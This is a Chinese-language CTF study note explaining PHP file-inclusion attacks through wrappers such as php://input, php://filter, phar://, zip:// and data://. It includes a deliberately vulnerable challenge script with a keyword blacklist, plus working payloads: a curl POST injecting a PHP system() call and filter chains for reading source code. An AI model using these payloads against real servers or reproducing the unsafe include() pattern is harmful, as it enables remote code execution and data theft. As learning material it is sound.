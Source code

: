 layout: post
title: 文件包含
subtitle: MISC
date: 2020-09-29
author: mr_king
header-img: img/background.jpg
catalog: true
tags: 
    -PHP

​     -ctf

​    -学习笔记

# 文件包含

在php.ini里有两个重要的参数allow_url_fopen和allow_url_include

allow_url_fopen:默认值是ON，允许url里的封装协议访问文件

allow_url_include:默认值是OFF,不允许包含url里的封装协议包含文件

#### php://input

php://input 是个可以访问请求的原始数据的只读流，可以读取到来自POST的原始数据。但当 enctype=”multipart/form-data” 的时候 php://input 是无效的。

**利用条件：**

1. allow_url_include = On。
2. 对allow_url_fopen不做要求。

```html
http:/xxx/index.php?file=php://input
```



**题目：**

```php
<meta charset="utf-8">
<?php
error_reporting(0);
var_dump(file_get_contents("php://input"));
$file = $_GET["file"];
if (stristr($file, "filter") || stristr($file, "zip://") || stristr($file, "phar://") || stristr($file, "data:")) {
    exit('hack');
}
if($file){
    if($file!='https://www.baidu.com'){
        echo "tips:flag在根目录下，了解php伪协议";
        include($file);
    }

}
else{
    echo '<a href="?file=http://www.baidu.com">click go baidu</a>';
}
```

```url
payload:http://127.0.0.1/include_file/include_input.php?file=php://input
--date ="<?php system('dir');?>"
```

```curl
curl -X POST -H 'Content-Type: application/x-www-form-urlencoded' -i 'http://127.0.0.1/include_file/include_input.php?file=php://input' --data '<?php system('\''dir'\'');?>'
```

## php:filter

一般用于任意文件读取，有时也可以用于getshell.在双OFF的情况下也可以使用.

php://filter是一种元封装器，用于数据流打开时筛选过滤应用。这对于一体式（all-in-one）的文件函数非常有用。类似readfile()、file()、file_get_contents(),在数据流读取之前没有机会使用其他过滤器。



|           名称            | 描述                                                         |
| :-----------------------: | ------------------------------------------------------------ |
| resource=<要过滤的数据流> | 这个参数是必须的。它指定了你要筛选过滤的数据流。             |
|   read=<读链的筛选列表>   | 参数可选。可以设定一个或多个过滤器名称，以管道符(\|)分隔     |
| *write=<写链的筛选列表>*  | 该参数可选。可以设定一个或多个过滤器名称，以管道符(\|)分隔   |
|  *<；两个链的筛选列表>*   | 任何没有以 *read=* 或 *write=* 作前缀 的筛选器列表会视情况应用于读或写链。 |

```curl
php://filter/[read/write]=string.[rot13/strip_tags/…..]/resource=xxx
```

filter和string过滤器连用可以对字符串进行过滤。filter的read和write参数有不同的应用场景。read用于include()和file_get_contents(),write用于file_put_contents()中。

```url
php://filter/convert.base64-[encode/decode]/resource=xxx
```

这是使用的过滤器是convert.base64-encode.它的作用就是读取upload.php的内容进行base64编码后输出。可以用于读取程序源代码经过base64编码后的数据

## **file://**

file://伪协议在双OFF的时候也可以用，用于本地文件包含

注：file://协议必须是绝对路径

## **phar://**

PHP 归档，常常跟文件包含，文件上传结合着考察。说通俗点就是php解压缩包的一个函数，解压的压缩包与后缀无关。

```
phar://test.[zip/jpg/png…]/file.txt
```

其实可以将任意后缀名的文件(必须要有后缀名)，只要是zip格式压缩的，都可以进行解压，因此上面可以改为phar://test.test/file.txt也可以运行。

## **zip://,bzip2://, zlib://**

在双OFF的时候也可以用，

```
zip://test.zip%23file.txt
```

和phar://一样用于读取压缩文件，不过对于"zip://test.zip#file.txt"中的"#"要编码为"%23".因为url的#后的内容不会被传送

## **data://text/plain;base64,base编码字符串**

很常用的数据流构造器，将读取后面base编码字符串后解码的数据作为数据流的输入